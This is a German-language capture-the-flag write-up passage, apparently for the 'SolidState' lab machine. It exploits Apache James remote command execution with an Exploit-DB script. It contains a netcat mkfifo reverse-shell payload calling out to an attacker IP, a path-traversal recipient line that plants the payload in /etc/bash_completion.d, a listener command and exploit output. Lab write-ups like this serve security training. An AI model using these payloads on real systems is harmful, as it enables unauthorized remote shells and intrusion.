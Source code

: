 **Remote Command Execution **klingt doch nett. [Hier](https://www.exploit-db.com/exploits/35513/) ist der Link zu dem Exploit.

Kopieren wir uns das Script.

```shell
root@kali:/home/SolidState# cp /usr/share/exploitdb/exploits/linux/remote/35513.py /home/SolidState/james.py
```

Jetzt müssen wir es nur noch anpassen. Als Payload können wir ein [Netcat Reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) benutzen. Außerdem können wir noch den **hostname** festlegen, welcher hier **solidstate** ist.

```shell
root@kali:/home/SolidState# vi james.py
payload = 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.222 1234 >/tmp/f' #Zeile19
[...]
#also try s.send("rcpt to: <../../../../../../../../etc/bash_completion.d@hostname>\r\n") if the recipient cannot be found
s.send("rcpt to: <../../../../../../../../etc/bash_completion.d@solidstate>\r\n") #zeile 59
```

Nun hören wir mit Netcat den Port ab, den wir im Script vorhin festgelegt haben.

```shell
root@kali:/home/SolidState# nc -lnvp 1234
listening on [any] 1234 ...
```

Parallel dazu führen wir das Script aus.

```shell
root@kali:/home/SolidState# python james.py
[-]Usage: python james.py <ip>
[-]Exemple: python james.py 127.0.0.1
root@kali:/home/SolidState# python james.py 10.10.10.51
[+]Connecting to James Remote Administration Tool...
[+]Creating user...
[+]Connecting to James SMTP server...
[+]Sending payload...
[+]Done! Payload will be executed once somebody logs in.
```

Jetzt muss sich nur noch jemand über SSH anmelden!

```shell
root@kali:/home/SolidState# ssh mindy@10.10.10.51
mindy@10.10.10.51's password:
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686
[...]
```

Wir haben Zugriff!

Nun können wir die Shell zu einer [fully interactive TTY](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) upgraden, damit wir **autocomplete, su etc.** haben.
